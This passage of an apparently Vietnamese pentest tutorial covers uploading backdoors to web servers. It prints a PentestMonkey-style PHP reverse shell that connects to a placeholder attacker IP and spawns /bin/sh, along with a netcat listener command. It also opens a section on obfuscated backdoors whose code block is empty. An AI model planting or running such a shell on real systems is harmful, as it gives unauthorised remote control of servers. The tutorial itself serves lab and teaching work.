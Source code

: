 ![alt text](./src/image-13.png) <br>
![alt text](./src/image-14.png) <br>
<a id="p4"></a>
## 4. Upload backdoor nâng cao
### 4.1 PentestMonkey PHP Reverse Shell
Có thể update file shell sau <br>
```
<?php
$ip = 'YOUR_IP';
$port = YOUR_PORT;
$socket = fsockopen($ip, $port);
exec('/bin/sh -i <&3 >&3 2>&3');
?>
```
Và dùng nc để kết nối `nc -lvnp PORT` <br>
### 4.2 Upload backdoor với Obfuscation
Mã hóa nguồn backdoor <br>
```
<?php
                                                                                                                                                                                
?>
```
<a id="p5"></a>
## 5 WriteUp Lab Vuln 
![alt text](./src/image-15.png) <br>